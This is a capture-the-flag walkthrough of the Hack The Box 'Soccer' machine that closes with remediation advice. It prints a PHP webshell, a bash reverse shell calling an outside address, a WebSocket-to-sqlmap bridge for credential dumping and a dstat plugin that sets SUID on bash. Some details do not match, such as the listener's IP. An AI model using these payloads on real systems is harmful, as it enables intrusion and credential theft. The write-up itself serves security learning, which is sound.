

# 🛡️ HTB Soccer Walkthrough

## Machine Overview

**Attack Chain Summary:** The engagement begins with discovering a Tiny File Manager instance secured by default credentials. Administrative access allows the upload of a PHP reverse shell, securing initial access as `www-data`. Enumeration reveals a hidden virtual host that proxies a WebSocket-based ticket validation service. A custom Python middleware script is utilized to bridge `sqlmap` to the WebSocket, exploiting a Blind SQL Injection vulnerability to leak the `player` user's SSH credentials. Finally, privilege escalation is achieved by exploiting a `doas` misconfiguration that permits the unprivileged user to execute `dstat` as root with a malicious custom plugin.

| Attribute | Details |
| :--- | :--- |
| **Machine Name** | Soccer |
| **Operating System** | Linux |
| **Difficulty** | Easy |
| **IP Address** | 10.129.174.33 |

---

## Reconnaissance & Enumeration

Initial reconnaissance forms the foundation of any penetration test. The objective is to identify all exposed services, understand the underlying technology stack, and pinpoint potential entry vectors.

### Port Scanning

A comprehensive Nmap scan is executed to identify active TCP ports. The `-sC` flag runs default Nmap scripts to gather supplementary information (like HTTP titles or SSH host keys), while the `-sV` flag probes open ports to determine the exact service and version numbers. The `-T4` flag speeds up the scan by optimizing timing templates.

```shell title="Nmap Service Scan"
nmap -sC -sV -T4 -oA reports/soccer_ 10.129.174.33 
```

<!-- TODO: Missing data. Please provide the raw Nmap output here. -->

The scan identifies three open ports:

| Port | State | Service | Version | Notes |
| :--- | :--- | :--- | :--- | :--- |
| **22/tcp** | Open | SSH | OpenSSH 8.2p1 | Standard secure shell. Version indicates a likely Ubuntu Linux host. |
| **80/tcp** | Open | HTTP | nginx 1.18.0 | Web server. Immediately redirects to `http://soccer.htb/`. |
| **9091/tcp** | Open | WebSocket | Unknown | Returns raw HTTP/1.1 400/404 responses. Nmap struggles to fingerprint it accurately. |

### Service Identification & Web Footprinting

Attempting to access the web server via its IP address results in an immediate 301 HTTP redirection to a fully qualified domain name (FQDN): `soccer.htb`. This is a strong indicator that the server is utilizing name-based virtual routing.

```text title="Verifying Redirection"
──(kali㉿kali)-[~/htb/soccer]
└─$ curl -I http://10.129.174.33                 
HTTP/1.1 301 Moved Permanently
Server: nginx/1.18.0 (Ubuntu)
Location: http://soccer.htb/
```

To interact with the application properly, the target domain must be mapped to its IP address in the local `/etc/hosts` file.

```shell title="Updating Local DNS"
echo "10.129.174.33  soccer.htb" | sudo tee -a /etc/hosts
```

Navigating to `http://soccer.htb/` reveals a static landing page for a fictional "HTB Football Club." Extensive manual interaction reveals that none of the links on the page are functional, suggesting the main application may be hosted elsewhere or hidden within a subdirectory.


To systematically map the web application's structure, a directory brute-force attack is conducted using Gobuster. The `dir` mode is used with a comprehensive wordlist to discover hidden paths that are not linked from the main page.

```shell title="Gobuster Directory Enumeration"
gobuster dir --url http://soccer.htb/ --wordlist /usr/share/seclists/Discovery/DNS/subdomains-top1million-20000.txt -t 40
```

| Discovered Path | HTTP Status | Size | Description |
| :--- | :--- | :--- | :--- |
| `/tiny/` | 301 (Redirect) | 178 bytes | Redirects to `http://soccer.htb/tiny/`. This is highly suspicious and warrants immediate investigation. |

Accessing `http://soccer.htb/tiny/` presents a login portal for a third-party application called **Tiny File Manager**.


---

## Initial Foothold

The discovery of a third-party application is a critical turning point. Third-party software often suffers from known vulnerabilities, misconfigurations, or the use of default credentials.

### The Vulnerability: Default Credentials & Insecure File Upload

Tiny File Manager is a web-based PHP file manager designed for simple file hosting. By reviewing the official [Tiny File Manager GitHub repository](https://github.com/prasathmani/tinyfilemanager), the documentation explicitly lists the default administrative credentials:

| Username | Password | Access Level |
| :--- | :--- | :--- |
| `admin` | `admin@123` | Administrator (Full Access) |
| `user` | `12345` | Standard User |

Attempting to authenticate with `admin:admin@123` is successful. The application grants full administrative access, exposing the underlying web directory structure. 



Because the application is built on PHP and explicitly designed to upload and manage files, this functionality can be abused to upload a malicious PHP script (a webshell). If the web server is configured to execute `.php` files in the upload directory, this will lead directly to Remote Code Execution (RCE).

### Exploitation

Attempting to upload a file directly to the web root (`/var/www/html/`) fails due to standard file permission restrictions. However, the application contains a dedicated `/tiny/uploads/` directory that is inherently writable by the web service account.

A simple, robust PHP webshell is crafted. This script takes an HTTP GET parameter named `cmd` and passes its value directly to the underlying operating system via the `system()` function.

```php title="shell.php"
<?php system($_REQUEST['cmd']);?>
```

The `shell.php` file is uploaded to the `/tiny/uploads/` directory via the web interface.


Execution is verified by sending a benign system command (e.g., `id`) to the webshell via `curl`. 

```shell title="Testing RCE"
curl http://soccer.htb/tiny/uploads/shell.php -d 'cmd=id'
```

```text title="Command Output"
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

The command successfully executes, confirming that the webshell is functional and the server is executing PHP within the `uploads` directory. To transition from a limited webshell to a fully interactive session, a reverse shell payload is executed.

First, a netcat listener is established on the attack machine to catch the incoming connection:

```shell title="Starting Listener"
sudo nc -lvnp 443
```

Next, a bash reverse shell payload is sent to the webshell. URL encoding (`%26`) is used to ensure the payload is interpreted correctly by the web server.

```shell title="Triggering Reverse Shell"
curl http://soccer.htb/tiny/uploads/shell.php -d 'cmd=bash -c "bash -i >%26 /dev/tcp/10.10.14.6/443 0>%261"'
```

A stable reverse shell connection is successfully established. The engagement has transitioned from external enumeration to internal persistence as the `www-data` service account.

```text title="Established Shell"
listening on [any] 443 ...
connect to [10.10.14.71] from (UNKNOWN) [10.129.174.33] 44658
www-data@soccer:~/html/tiny/uploads$ 
```

### Stabilization

*Note: While a basic bash shell is functional, it is prone to crashing and lacks features like tab-completion or command history. It is highly recommended to upgrade the shell using Python (`python3 -c 'import pty; pty.spawn("/bin/bash")'`) or `stty raw -echo` for a fully interactive TTY.*

---

## Lateral Movement: WebSocket SQL Injection

Operating as `www-data` represents a low-privileged context. The next objective is lateral movement to a user account with higher privileges.

### Discovering the Virtual Host

Local enumeration involves inspecting internal configuration files that dictate how the server operates. Nginx configuration files, located in `/etc/nginx/sites-enabled/`, define the routing rules for incoming HTTP requests and often reveal internal subdomains or applications not exposed publicly.

```shell title="Checking Nginx Configurations"
cat /etc/nginx/sites-enabled/soc-player.htb
```

```text title="soc-player.htb config"
server {
	listen 80;
	listen [::]:80;

	server_name soc-player.soccer.htb;

	root /root/app/views;

	location / {
		proxy_pass http://localhost:3000;
		proxy_http_version 1.1;
		proxy_set_header Upgrade $http_upgrade;
		proxy_set_header Connection 'upgrade';
		proxy_set_header Host $host;
		proxy_cache_bypass $http_upgrade;
	}

}
```

This configuration file exposes a critical finding: a secondary virtual host named `soc-player.soccer.htb`. The configuration explicitly acts as a reverse proxy, forwarding traffic to a local service running on port 3000. Crucially, the `proxy_set_header Upgrade $http_upgrade;` directives indicate that this application utilizes **WebSockets** for real-time, persistent communication.

To access this internal application, the attack machine's `/etc/hosts` file is updated:

```shell title="Updating Local DNS for VHost"
echo "10.129.174.33  soc-player.soccer.htb" | sudo tee -a /etc/hosts
```

Navigating to `http://soc-player.soccer.htb/` reveals a sophisticated ticket validation system requiring user registration. After registering a test account and authenticating, the application provides a feature to input and check ticket IDs.


### The Vulnerability: WebSocket Blind SQL Injection

Intercepting the traffic using a web proxy (such as Burp Suite) reveals that when a ticket ID is checked, the browser establishes a WebSocket connection to `ws://soc-player.soccer.htb:9091/`. 

The data transmitted over this persistent connection is formatted as a simple JSON object:

```json title="WebSocket Payload"
{"id": "1234"}
```

If the ID exists, the server responds over the WebSocket with "Ticket Exists". If it does not, it responds with "Ticket Doesn't Exist". This differential response behavior is the hallmark of a **Blind SQL Injection** vulnerability. By injecting boolean logic into the `id` parameter, an attacker can ask the database true/false questions.

| Condition | Injected Payload | Expected WebSocket Response |
| :--- | :--- | :--- |
| **True** | `{"id": "1234 OR 1=1"}` | `Ticket Exists` |
| **False** | `{"id": "1234 AND 1=2"}` | `Ticket Doesn't Exist` |

### Exploitation via Middleware

While the vulnerability is confirmed, exploiting it manually is incredibly tedious. Automated tools like `sqlmap` are highly efficient at exploiting Blind SQLi, but they are natively designed to send HTTP GET/POST requests, not raw WebSocket frames.

To bridge this gap, a local Python "middleware" script is constructed. This script stands up a local HTTP web server. When `sqlmap` sends a standard HTTP GET request to this local server, the script extracts the payload, wraps it in the expected JSON format, establishes a WebSocket connection to the target, sends the payload, receives the response, and translates it back into an HTTP response for `sqlmap`.

```python title="middleware.py (WebSocket to HTTP Bridge)"
from http.server import SimpleHTTPRequestHandler, HTTPServer
import urllib.parse
import websocket
import json

class ReqHandler(SimpleHTTPRequestHandler):
    def do_GET(self):
        # 1. Establish WebSocket Connection to Target
        ws = websocket.WebSocket()
        ws.connect("ws://soc-player.soccer.htb:9091/")
        
        # 2. Extract SQLi payload from the HTTP query string sent by sqlmap
        qs = urllib.parse.parse_qs(urllib.parse.urlparse(self.path).query)
        payload = qs.get('id', [''])[0]
        
        # 3. Format as JSON and Forward as a WebSocket message
        ws.send(json.dumps({"id": payload}))
        resp = ws.recv()
        ws.close()
        
        # 4. Return the WebSocket response as an HTTP response to sqlmap
        self.send_response(200)
        self.end_headers()
        self.wfile.write(resp.encode())

if __name__ == '__main__':
    server = HTTPServer(('localhost', 8081), ReqHandler)
    server.serve_forever()
```

The middleware script is executed in the background. `sqlmap` is then directed to attack the local proxy on port 8081.

```shell title="Running SQLMap through Middleware"
python3 middleware.py &
sqlmap -u "http://localhost:8081/?id=1" --dbs --batch
```

The database enumeration successfully identifies a database named `soccer_db`. Instructing `sqlmap` to dump the contents of the `accounts` table within this database yields the credentials for a user named `player`.

```shell title="Extracting Credentials"
sqlmap -u "http://localhost:8081/?id=1" -D soccer_db -T accounts --dump --batch
```

| ID | Email | Password |
| :--- | :--- | :--- |
| `1337` | `player@player.htb` | `PlayerOftheMatch2022` |

### User Flag

Because password reuse is a common operational security failure, these database credentials are tested against the SSH service. The authentication succeeds, providing an interactive, stable shell as the `player` user.

```shell title="SSH Access"
ssh player@10.129.174.33
cat /home/player/user.txt
```

---

## Privilege Escalation

The final phase of the engagement focuses on escalating privileges from the standard `player` account to the administrative `root` account.

### Enumeration for PrivEsc

In secure Linux environments where the `sudo` command is restricted, disabled, or unavailable, administrators frequently implement alternative privilege escalation mechanisms. One common alternative, originally developed for OpenBSD, is `doas` ("do as"). 

Checking the `doas` configuration file `/usr/local/etc/doas.conf` reveals the specific commands the `player` user is explicitly authorized to execute with elevated privileges.

```shell title="Checking doas configuration"
cat /usr/local/etc/doas.conf
```

```text title="doas.conf Output"
permit nopass player as root cmd /usr/bin/dstat
```

The configuration is explicit: it permits the `player` user to execute the `/usr/bin/dstat` binary as the `root` user *without* requiring a password prompt (`nopass`).

### The Misconfiguration: `dstat` Custom Plugins

`dstat` is an advanced, highly versatile system resource statistics generation tool. A core feature of its architecture is extensibility: it inherently supports custom plugins written in Python to monitor specialized metrics. 

When invoked, the `dstat` binary actively searches specific, hardcoded directories for these plugins. One of the primary directories it checks is `/usr/local/share/dstat/`.

Verifying the filesystem permissions of this critical plugin directory reveals a severe misconfiguration.

```shell title="Checking dstat plugin permissions"
ls -ld /usr/local/share/dstat/
```

```text title="Directory Permissions"
drwxrwxr-x 2 root player 4096 Jun 22 10:00 /usr/local/share/dstat/
```

While the directory is owned by `root`, the `player` group has been explicitly granted write access (`drwxrwxr-x`). 

This represents a fatal logical flaw:

1. The `player` user can write arbitrary Python files to the plugin directory.
2. The `player` user can force `dstat` to load and execute those Python files.
3. Because `dstat` is being executed via `doas`, the binary—and therefore the malicious Python plugin—is executed entirely within the context of the `root` user.

### Exploitation

A malicious `dstat` plugin is constructed to exploit this logic flaw. The objective of the plugin is to modify the permissions of the standard bash shell (`/bin/bash`), setting the Set-User-ID (SUID) bit. An SUID binary executes with the privileges of the file's owner (root) rather than the user executing it.

`dstat` enforces a strict naming convention for its plugins: `dstat_<plugin_name>.py`. A file named `dstat_exploit.py` is created.

```shell title="Deploying Malicious dstat Plugin"
cat << 'EOF' > /usr/local/share/dstat/dstat_exploit.py
import os
os.system("chmod +s /bin/bash")
EOF
```

The `dstat` binary is executed via `doas`, specifically invoking the malicious plugin using the `--exploit` flag.

```shell title="Triggering the Exploit"
doas -u root /usr/bin/dstat --exploit
```

Upon execution, the Python code runs silently as `root` and executes the `chmod` command. The `/bin/bash` binary is now permanently elevated. An interactive, privileged root shell can now be spawned by executing bash with the `-p` (privileged) flag, which forces bash to retain its elevated SUID status.

```shell title="Spawning Root Shell"
/bin/bash -p
```

```text title="Verifying Root Status"
bash-5.0# whoami
root
```

### Root Flag

Complete administrative control has been achieved. The final root flag is successfully retrieved.

```shell title="Capturing Root Flag"
cat /root/root.txt
```

---

## Conclusion & Takeaways

### Vulnerability Remediation

1.  **Eliminate Default Credentials:** The entire attack chain was initiated due to the Tiny File Manager deployment utilizing widely documented default credentials. Operational deployments of third-party software must mandate the immediate rotation of all default credentials to unique, cryptographically strong passwords.
2.  **Implement Parameterized Queries for WebSockets:** The ticket validation backend improperly concatenated user-supplied JSON input (`{"id": "..."}`) directly into a database query string. The transport mechanism (WebSocket vs. HTTP) does not inherently sanitize data. Parameterized queries (prepared statements) must be utilized across all database interactions, regardless of the communication protocol.
3.  **Strictly Audit Binary Execution Paths:** Allowing a standard user to execute a complex, extensible binary (like `dstat`) as root introduces massive risk. Because `dstat` loads external plugins, the permissions of the plugin directories act as a secondary security boundary. The `/usr/local/share/dstat/` directory should have been strictly owned by `root:root` with `755` permissions, completely preventing the `player` user from writing malicious code into the execution path.

### Key Lessons

*   **Transport Layers Do Not Mitigate Application Logic Flaws:** Blind SQL Injection is traditionally associated with HTTP GET/POST parameters. However, vulnerabilities exist at the application layer, not the transport layer. WebSockets, MQTT, or gRPC endpoints are equally susceptible to injection attacks if the backend code fails to sanitize input.
*   **The Power of Middleware in Tool Chaining:** When standard security tooling (like `sqlmap`) is incompatible with a target protocol (like WebSockets), custom middleware bridging is a vital technique. Understanding how to wrap and translate network traffic allows practitioners to adapt existing tools to novel attack surfaces.
*   **The Danger of "Living off the Land" Extensibility:** Modern Linux administration tools often feature plugin architectures. When auditing privilege escalation vectors (via `sudo` or `doas`), security professionals must investigate *how* the permitted binary operates. If the binary parses configuration files, loads shared libraries, or executes plugins from writable directories, the restrictive intent of `sudo/doas` is completely bypassed.